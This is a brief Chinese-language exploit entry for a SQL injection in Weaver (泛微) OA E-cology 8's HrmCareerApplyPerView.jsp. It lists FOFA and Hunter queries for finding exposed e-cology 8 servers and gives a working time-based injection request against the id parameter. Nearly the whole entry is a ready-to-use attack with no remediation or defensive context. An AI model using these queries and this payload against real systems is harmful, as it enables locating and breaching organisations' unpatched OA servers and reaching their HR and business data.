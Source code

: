# 泛微OA E-cology 8 HrmCareerApplyPerView.jsp SQL注入漏洞

## 网络测绘

fofa: app="泛微-OA（e-cology）" && body="ecology8"

hunter: app.name="泛微 e-cology OA"&&web.body="ecology8"

## POC / EXP

```
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 WAITFOR DELAY '0:0:5'
```